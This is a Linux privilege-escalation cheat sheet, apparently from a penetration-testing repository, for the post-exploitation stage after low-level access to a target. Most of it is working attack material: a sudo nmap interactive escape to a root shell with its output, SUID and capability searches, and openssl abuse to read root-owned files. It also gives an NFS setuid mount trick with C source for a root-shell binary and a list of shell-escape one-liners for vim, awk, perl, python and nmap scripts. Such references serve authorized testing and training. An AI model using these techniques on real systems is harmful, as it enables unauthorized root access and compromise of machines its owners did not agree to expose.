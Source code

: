 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
To filter out directories we can use a regexp like so,
```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null | egrep -v '^d`
```
Search for the sticky bit:
```
user@target-machine:~$ find / -perm -u=s -type f 2>/dev/null 
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
/usr/bin/command = cap_dac_read_search+ei
```
Then, we can try to analyze the command as a binary with `strings`, `gdb`, or test it by fuzzing, or execution trial an error.
### OpenSSL
Here is an OpenSSL example of how to utilize Unix Capabilities to read a file that you don't have read access to. If we use `openssl` which has the capabilities set as `=ep`, as shown below,
```
unprivuser@target-system:~$ find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
openssl =ep
```
We can run `./openssl` to encrypt a file for us, then again to decrypt it. This process essentially creates a new file which we have permission to read. Try this,
```
unprivuser@target-system:~$ ./openssl aes-256-cbc -a -salt -in /root/root.txt -out root.txt.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
unprivuser@target-system:~$ ls -lah
-rw-rw-r--. 1 unprivuser unprivuser   90 Jan 18 14:28 root.txt.enc
```
Now we decrypt the new file, using the password we chose during the encryption process, and we can read ikt's contents.
```
unprivuser@target-system:~$ openssl aes-256-cbc -d -a -in root.txt.enc -out root.txt
enter aes-256-cbc decryption password:
unprivuser@target-system:~$ cat root.txt
This was a privileged flag file in /root ! How did you read me!?!
unprivuser@target-system:~$
```
## Mounted Filesystems with SetUID
Is there perhaps a mounted NFS share that we can mount remotely? Maybe one with the mount options of setuid 0? 
```
root@attacker-machine:~# mkdir /mnt/nfs
root@attacker-machine:~# mount -t nfs (TARGET IP ADDRESS)/path/to/nfs /mnt/nfs -o nolock
```
Then, compile a binary that spawns a shell, such as,
```
#include<stdlib.h>
#include<stdio.h>
#include<unistd.h>
int main(void){
 setuid(0);
 setgid(0);
 system("/bin/bash");
 return 0;
}
```
Compile it so that the binary is on the mounted NFS share and run it,
```
root@attacker-machine:/mnt/nfs:# gcc execute.c -m32 -o execute
```
## Cron Jobs
Do any cron jobs run that execute scripts or binaries that we have write access to?
```
ls -la /etc/cron*
```
## Network Check
Does the compromised system connect to an internal network or possibly other vulnerable machines? 
```
user@target-machine:~$ ifconfig
```
Does it communicate to other systems or services?
```
user@target-machine:~$ tcpdump -i eth0
```
What systems has it had recent contact with?
```
user@target-machine:~$ arp -a
```
Which DNS server is the compromised system using?
```
user@target-machine:~$ cat /etc/resolv.conf
```
What other hosts/domains does the system have routes to?
```
user@target-machine:~$ cat /etc/hosts
```

## SuDo Escape Tests
Some applications may allow you to run as super-user with `sudo`. If the program has an "escape-back-to-shell" function, it can be leveraged as a priviliege escalation vector. Here is a list of applications which have this feature. Check each one for SUID or `sudo` access from your compromised user. This requires the knownledge of the currently-compromised user account.
#### VI/VIM
* :!bash
* :set shell=/bin/bash:shell
#### Man, More, Less
* !bash
#### Find+AWK
* find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
#### AWK
awk 'BEGIN {system("/bin/bash")}'
#### NMAP
* nmap --interactive; # then "!sh"
* echo "os.execute('/bin/sh')" > exploit.nse
* sudo nmap --script=exploit.nse
#### Perl
* perl -e 'exec "/bin/bash";'
#### Python
* python -c "import pty; pty.spawn("/bin/sh")"
#### Ruby
* ruby exec "/bin/sh"
#### Echo
* echo os.system('/bin/bash')
#### FTP
* !/bin/sh
